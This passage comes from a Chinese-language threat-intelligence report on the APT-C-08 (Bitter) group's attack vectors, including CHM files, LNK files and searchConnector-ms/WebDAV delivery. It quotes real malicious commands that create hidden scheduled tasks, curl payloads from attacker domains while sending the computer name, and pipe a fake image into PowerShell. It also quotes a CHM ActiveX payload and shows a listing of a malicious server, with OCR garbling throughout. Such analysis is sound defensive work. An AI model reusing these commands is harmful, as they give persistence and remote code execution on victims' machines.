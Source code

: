 <html><body><table><tr><td>712</td></tr><tr><td>TT Raw Bytes LF</td></tr><tr><td>日口用</td></tr><tr><td>Output</td></tr></table></body></html>  

schtasks/create/tnWinSecurity/sc minute/mo 15/trpowershell.exe -WindowStyle Hidden-command curl-0 %LOCALAPPDATA%\pic.jpghttps://coauthcn.com/hbz.php?id=%computername%;timeout 9;more %LOCALAPPDATA%\pic.jpg|powershell;timeout9;del%LOCALAPPDATA%\pic.jpg"/f  

此外，在利用方式也有所不同，可以分为直接下载后门载荷和间接下载后门载荷，直接下载方式如明文类型给出的例图，执行参数中带有msiexec命令，即下载为一个MSI文件；间接下载的方式通常是先创建计划任务下载一个脚本保存为图片并执行，其功能为继续下载后续后门载荷，如下所示：  

# APT-C-08（蔓灵花）组织：多元攻击载体大揭秘  

<0BJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"width=1height=1>   
<PARAM name="Command"value="ShortCut"> <PARAM name="Button"value="Bitmap::shortcut"> <PARAM name="Item1"value=",cmd.exe,/c start /min powershell.exe &quot;schtasks /create /sc   
-hourly/mo1/tn MicrosoftEdgeUpdateSecurity/f/trpowershell-WindowStyleHidden-command curl  
-o%LoCALAPPDATA%\pic.jpghttps://ww.shzjwxsns.qqcloud.coauthcn.com/webxdfr2387.png:more   
-%LOCALAPPDATA%\pic.jpg|powershe1l;del%LOCALAPPDATA%\pic.jpg:\*&quot;"> <PARAMname="Item3"value="273,1,1">   
</OBJECT>  

cur1-0%LOCALAPPDATA%\pic.jpg -https://www.shzjwxsns.qqcloud.coauthcn.com/MKD.php?M=Senv:computername;  

### 5.SearchConnector-ms文件  

今年以来，蔓灵花组织开始采用新的攻击手段，使用searchConnector-ms文件作为初始访问阶段的载荷。当用户打开该文件后，通过WebDAV服务远程下载后续攻击载荷，通常是包含恶意LNK文件或者包含CHM文件的压缩包，当用户打开恶意文件时就会触发后续的下载执行。经过分析，这类攻击活动至少于2024年2月就已经开始，并采用钓鱼邮件投递，截止到目前，该类型样本的查杀率都极低，以其中一个样本为例如下所示：  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/af47dbf54259db66536be74531003298e4327ab18a443ba694b1e752f5f53450.jpg)  

SearchConnector-ms样本的内容如下所示，  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/ae93017e1a106a5b83b6d798cc22e49f5021ac48eb15998e13f5c041c3876b28.jpg)  

当受害者打开文档时，将通过webdav访问远程资源http[:］//healthtipsart.com/dll/Downloads/并显示，如下所示:  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/39b2d079fecb5238182b30f33341b57e488e3454bb8675074807df17ea027cb5.jpg)  

受害者点击LNK时，便会执行其中携带的恶意参数，功能为创建计划任务下载执行，如下所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/1da5c559fa33d910ca697c071ed73089a8a9f437684992bdd6aa2e015c55ed6a.jpg)  

在对该网站的分析中，我们还发现了大量的其他恶意文件，结合分析这些恶意文件都是通过searchConnector-ms方式获取，部分文件如下所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/8538087461802e57e8b8e6773d7b673b363de9ab19a6f29cc6043259466f0aeb.jpg)  
Apache/2.4.59(Ubuntu)Serverat healthtipsart.comPort80  

<html><body><table><tr><td colspan="3">A不安全|healthtipsart.com/Microsoft/4/</td></tr><tr><td colspan="3">Index of /Microsoft/4</td></tr><tr><td>Name</td><td>Lastmodified</td><td>Size Description</td></tr><tr><td colspan="3">Parent Directory.</td></tr><tr><td>Networking_issueVM_54378.rar2024-07-3107:182.8K</td><td></td><td></td></tr><tr><td colspan="3">buttin.zip</td></tr><tr><td>button_pass.zip</td><td>2024-08-0111:043.6K 2024-08-0111:063.6K</td><td></td></tr><tr><td>fdsed.rar</td><td>2024-08-0105:553.6K</td><td></td></tr><tr><td>frcvds.zip</td><td>2024-08-0105:573.8K</td><td></td></tr><tr><td>Ink+rar.rar</td><td>2024-08-0107:291.6M</td><td></td></tr><tr><td>Ink+txt.zip</td><td>2024-08-0107:281.6M</td><td></td></tr><tr><td>mki5433gdge.zip</td><td>2024-08-0104:533.7K</td><td></td></tr><tr><td>mkife.zip</td><td></td><td></td></tr><tr><td></td><td>2024-08-0107:261.6M</td><td></td></tr></table></body></html>
